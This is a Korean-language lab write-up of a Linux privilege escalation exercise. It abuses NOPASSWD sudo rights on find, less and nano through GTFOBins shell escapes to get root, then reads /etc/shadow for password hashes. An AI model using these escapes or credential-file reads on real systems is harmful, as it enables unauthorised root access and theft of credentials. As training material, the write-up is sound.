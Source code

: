 # Linux Privilege Escalation: Sudo
> 특정 바이너리에 대한 sudo 권한을 악용하여 루트 권한을 획득하는 과정을 수행했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.60.159
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **OS 정보**: Ubuntu 20.04.1 LTS (Linux 5.4.0-1029-aws)
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속

- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.60.159
```
![SSH 접속 및 로그인](./screenshots/ssh_connect.png)


### 2.2 Sudo 권한 확인

- karen 사용자는 비밀번호 없이 `find`, `less`, `nano`를 sudo로 실행할 수 있는 권한이 있다. (NOPASSWD 설정)

```bash
sudo -l
```

![sudo -l 결과](./screenshots/sudo_result.png)


### 2.3 GTFOBins 참고
- https://gtfobins.github.io/ 사이트에서 각 명령어(`find`, `less`, `nano`)에 대한 권한 상승 방식 참고하여 루트 쉘 획득 시도를 하였다.

---

## 3. 명령어별 권한 상승

### 3.1 find 명령어 이용

- `-exec` 옵션을 사용하여 루트 권한으로 쉘을 실행하였다.
```bash
sudo find . -exec /bin/sh \; -quit
```
- 이후 루트 쉘에서 flag2.txt 파일을 검색 및 확인하였다.

```bash
find / -name flag2.txt
cat /home/ubuntu/flag2.txt
```
![find를 이용한 루트 쉘 및 플래그 획득](./screenshots/find_flag.png)

---

### 3.2 less 명령어 이용

```bash
sudo less /etc/profile
!/bin/sh
```
- less 명령어로 파일을 열고 `!/bin/sh`를 실행하면 쉘이 생성되었다.

![파일 내용](./screenshots/file_content.png)

- 해당 쉘은 sudo로 실행되었기 때문에 루트 쉘을 획득하였다.

![less를 이용한 루트 쉘 획득](./screenshots/less_root.png)

---

### 3.3 nano 명령어 이용
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
- `nano` 실행 후 Ctrl+R, Ctrl+X 키를 눌러 명령 실행 모드 진입을 했다.
- `reset; sh 1>&0 2>&0` 입력하여 루트 쉘을 획득하였다.

![nano를 이용한 루트 쉘 획득](./screenshots/nano_root.png)

- 루트 권한이 부여되었음을 확인하였다.

```bash
cat /etc/shadow
```

- 루트 권한으로만 접근 가능한 `/etc/shadow` 파일 내용을 출력하였다.
- karen, frank 등의 계정 해시를 포함하여 모든 사용자 정보 확보하였다.

![shadow 파일 내용 확인](./screenshots/flag_and_user_property.png)

---

## 느낀 점

**Sudo NOPASSWD 설정과 GTFOBins 활용이 얼마나 강력한지를 실습을 통해 체감**할 수 있었고, 각 **바이너리 별로 쉘 획득 방식이 다양하다는 점**을 실습으로 익힐 수 있었습니다.


